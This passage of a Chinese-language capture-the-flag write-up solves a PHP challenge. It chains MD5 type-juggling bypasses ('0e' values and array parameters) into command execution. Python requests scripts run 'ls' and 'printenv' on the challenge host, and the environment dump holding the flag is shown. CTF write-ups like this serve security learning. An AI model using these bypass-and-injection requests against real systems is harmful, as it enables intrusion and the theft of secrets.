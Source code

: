 ```php
    echo 'lol';
}
```
审计php代码可以看到，存在md5的弱类型比较绕过与强类型比较绕过，分别利用0e漏洞与数组漏洞绕过即可。绕后可以设置一个sign的get参数，绕过forbidden_commands与escapeshellcmd可以执行命令。

笔者在这里首先是尝试用python的requests库跑的:
```python
import requests

session=requests.Session()
data={
    'pwd':'UTIPEZQ',
    'pwd1[]':2
}
url="http://ctf.mardle.cn:34593/?usn=s878926199a&usn1[]=1&sign=ls"
response=session.post(url=url,data=data)
print(response.text)
```
这段代码可以读到目录下存在三个文件夹：flag,flag.sh,index.php。直接访问flag的话可以得到flag的内容为：flag{flag}。flag.sh内容如下：
```sh
#!/bin/sh
sed -i "s/flag{flag}/$GZCTF_FLAG/" /var/www/html/flag
export GZCTF_FLAG=""
```
用于将环境变量`$GZCTF_FLAG`替换flag文件的内容，所以直接尝试使用`sort flag`等的命令是失败的，因为此时sh脚本未被执行，flag文件内容尚未被替换。我尝试直接使用`echo $GZCTF_FLAG`似乎并不能正确得到环境变量内容(~~~~我比较奇怪~~，不奇怪了，`$`被过滤掉了)，后面看到wp似乎可以通过`env`直接输出或者`printenv`拿到所有环境变量内容。所以脚本如下：
```py
import requests

session=requests.Session()
data={
    'pwd':'UTIPEZQ',
    'pwd1[]':2
}
url="http://ctf.mardle.cn:34593/?usn=s878926199a&usn1[]=1&sign=printenv"
response=session.post(url=url,data=data)
print(response.text)
```
回显得到下列内容：
```
PHP_EXTRA_CONFIGURE_ARGS=--enable-fpm --with-fpm-user=www-data --with-fpm-group=www-data --disable-cgi
USER=www-data
HOSTNAME=0d06d1718000
PHP_INI_DIR=/usr/local/etc/php
SHLVL=2
HOME=/home/www-data
PHP_LDFLAGS=-Wl,-O1 -Wl,--hash-style=both -pie
PHP_CFLAGS=-fstack-protector-strong -fpic -fpie -O2
PHP_MD5=
PHP_VERSION=5.6.40
GPG_KEYS=0BD78B5F97500D450838F95DFE857D9A90D90EC1 6E4F6AB321FDC07F2C332E3AC2BF0BC433CFC8B3
PHP_CPPFLAGS=-fstack-protector-strong -fpic -fpie -O2
PHP_ASC_URL=https://secure.php.net/get/php-5.6.40.tar.xz.asc/from/this/mirror
PHP_URL=https://secure.php.net/get/php-5.6.40.tar.xz/from/this/mirror
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
GZCTF_FLAG=flag{2b23462f-b47d-46a8-8016-c3a6e40284e4}
PHPIZE_DEPS=autoconf            dpkg-dev dpkg           file            g++             gcc             libc-dev                make            pkgconf                 re2c
PWD=/var/www/html
PHP_SHA256=1369a51eee3995d7fbd1c5342e5cc917760e276d561595b6052b21ace2656d1c
FLAG=not_flag
GZCTF_TEAM_ID=403
```